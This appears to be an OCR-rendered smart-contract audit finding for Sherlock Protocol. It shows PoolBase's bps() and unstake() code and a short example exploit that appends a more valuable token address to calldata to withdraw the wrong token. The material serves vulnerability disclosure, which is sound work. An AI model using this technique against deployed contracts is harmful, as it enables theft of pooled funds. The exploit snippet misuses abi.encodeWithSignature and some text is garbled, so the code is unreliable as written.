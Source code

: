 ``` solidity
  // From Sherlock Protocol: PoolBase.sol
  function bps() internal pure returns (IERC20 rt) {
    // These fields are not accessible from assembly
    bytes memory array = msg.data;
    uint256 index = msg.data.length;

    // solhint-disable-next-line no-inline-assembly
    assembly {
      // Load the 32 bytes word from memory with the address on the lower 20 bytes, and mask those.
      rt := and(mload(add(array, index)), 0xffffffffffffffffffffffffffffffffffffffff)
    }
  }
}
```

This example can be used to exploit the protocol:

``` solidity
function unstake(
  uint256 _id,
  address _receiver,
  IERC20 _token
) external override returns (uint256 amount) {
  PoolStorage.Base storage ps = baseData();
  require(_receiver != address(0), 'RECEIVER');
  GovStorage.Base storage gs = GovStorage.gs();
  PoolStorage.UnstakeEntry memory withdraw = ps.unstakeEntries[msg.sender][_id];
  require(withdraw.blockInitiated != 0, 'WITHDRAW_NOT_ACTIVE');
  // period is including
  require(withdraw.blockInitiated + gs.unstakeCooldown < uint40(block.number), 'COOLDOWN_ACTIVE');
  require(
    withdraw.blockInitiated + gs.unstakeCooldown + gs.unstakeWindow >= uint40(block.number),
    'UNSTAKE_WINDOW_EXPIRED'
  );
  amount = withdraw.lock.mul(LibPool.stakeBalance(ps)).div(ps.lockToken.totalSupply());

  ps.stakeBalance = ps.stakeBalance.sub(amount);
  delete ps.unstakeEntries[msg.sender][_id];
  ps.lockToken.burn(address(this), withdraw.lock);
  _token.safeTransfer(_receiver, amount);
}
```

State token `Token1`. Let's say there is a more expensive token
`Token2`.

Here's an example exploit:

``` solidity
bytes memory exploitPayload = abi.encodeWithSignature(
  PoolBase.unstake.selector,
  (uint256(_id), address(_receiver), address(Token2), address(Token1))
);
poolAddress.call(exploitPayload);
```
